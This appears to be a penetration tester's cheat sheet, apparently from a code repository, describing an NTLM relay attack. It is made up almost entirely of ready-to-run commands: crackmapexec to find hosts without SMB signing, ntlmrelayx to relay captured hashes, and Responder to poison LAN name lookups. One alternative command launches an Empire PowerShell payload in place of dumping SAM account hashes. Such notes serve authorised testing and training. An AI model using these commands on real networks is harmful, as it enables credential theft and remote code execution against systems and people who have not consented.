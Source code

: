 === NTLM Relay

This attack answers any request for name lookup with itself, then reuses hashes received by those requests in new requests to other systems.

1. Generate a list of targets with SMB Signing disabled.

  cme smb <CIDR> --gen-relay-list targets.txt

2. Start `ntlmrelayx` to catch SMB and HTTP requests and reuse their hashes against the targets.

  ntlmrelayx.py -tf targets.txt -smb2support

3. Start responder on the LAN interface to attract requests.

  python Responder.py -I <interface> -r -d -w -P

==== Alternatives

  ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>

Run empire launcher instead of the default process of dumping account hashes from the SAM database.


==== Reference
- https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html
